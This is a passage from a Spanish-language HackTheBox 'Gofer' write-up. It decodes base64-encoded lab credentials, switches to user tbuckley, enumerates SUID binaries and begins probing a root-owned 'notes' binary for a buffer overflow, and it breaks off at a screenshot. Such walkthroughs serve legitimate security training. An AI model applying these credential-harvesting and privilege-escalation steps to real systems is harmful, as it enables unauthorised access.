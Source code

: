 **dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=**

¡Y parece que son las credenciales de `tbuckley` codificadas en base64!
```shell
echo "dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=" | base64 -d && echo 
tbuckley:ooP4dietie3o_hquaeti
```

¡Y conseguimos migrar a este usuario!
```shell
(remote) jhudson@gofer.htb:/tmp$ su tbuckley
Password: 
tbuckley@gofer:/tmp$ id
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
```

# Privilege Escalation

Detectamos un binario con el bit de SUID cuyo propietario es `root` y puede ejecutarlo los usuarios del grupo `dev` y antes hemos visto que `tbuckley` pertenece a este grupo.
```shell
tbuckley@gofer:~$ find / \-perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/local/bin/notes
tbuckley@gofer:~$ ls -la /usr/local/bin/notes
-rwsr-s--- 1 root dev 17168 Apr 28  2023 /usr/local/bin/notes
```

Viendo un poco que hace este binario, si probamos a ver si se acontece un BoF pasa lo siguiente.
![Write-up Image](images/Screenshot_18.png)